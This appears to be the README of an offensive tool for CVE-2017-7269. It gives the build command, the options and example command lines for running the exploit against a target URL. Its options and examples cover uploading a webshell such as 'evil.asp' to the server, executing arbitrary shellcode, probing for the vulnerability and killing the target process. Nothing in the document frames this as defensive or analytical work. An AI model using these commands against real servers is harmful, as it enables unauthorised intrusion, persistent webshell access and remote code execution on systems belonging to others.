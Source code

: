 # cve-2017-7269 webshell and shellcode tool

### build

	csc cve-2017-7269.cs

### usage

	CVE-2017-7269 <url> [parms]

	Header:
	-h <host>       set host for [If] header
	-p <port>       set port for [If] header
	-s <scheme>     set scheme for [If] header
	-l <length>     length of physical path
	
	WebShell:
	-w <webshell>   upload webshell to server
	-wp <shellpath> path of webshell to save
	
	ShellCode:
	-c <shellcode>  execute the shellcode
	
	Misc:
	-t      test vulnerable only.
	-e      exit process when getshell or test
	-k      kill target(equals -e and -t)

### example

	CVE-2017-7269 http://192.168.1.1/
	CVE-2017-7269 http://192.168.1.1/ -l 19
	CVE-2017-7269 http://host.remote/ -h test.local -p 8080 -s https
	CVE-2017-7269 http://192.168.1.1/ -e -l 22 -w evil.asp -wp /webshell.asp
	CVE-2017-7269 http://192.168.1.1/ -c shellcode.bin


